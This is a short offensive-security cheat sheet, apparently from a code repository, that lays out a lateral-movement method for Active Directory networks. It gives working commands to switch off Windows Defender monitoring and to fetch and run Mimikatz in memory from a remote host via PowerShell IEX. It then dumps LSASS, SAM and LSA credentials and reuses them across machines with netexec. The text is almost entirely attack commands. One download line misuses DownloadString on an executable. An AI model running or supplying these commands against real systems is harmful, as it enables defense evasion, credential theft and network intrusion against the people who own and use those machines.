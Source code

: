 # Lateral Movement Methodology

### 1) Credentials Dumping and Testing

If we get System/Admin level privileges on the machine, we can dump credentials from the machine to use them for lateral movement on other machines within a network.

This applies mostly to AD networks.

1) Disable Antivirus

        Set-MpPreference -DisableRealtimeMonitoring $True

2) Download mimikatz to target machine. You can use either the Invoke-Mimikatz powershell module, or the executable.

Execute a file in memory using powershell

      IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')

Download executable

      "IEX(New-Object Net.WebClient).downloadString('http://172.16.5.222/SharpHound.exe')"	

3) Run mimikatz

        .\mimikatz.exe

        privilege::debug

4) Dump LSASS

        sekurlsa::logonpasswords

5) Dump SAM

        lsadump::sam

6) Dump LSA

        lsadump::lsa

7) Collect cleartext/ntlm credentials and test them on different machines in the network using different protocols like smb, winrm and rdp for example using netexec
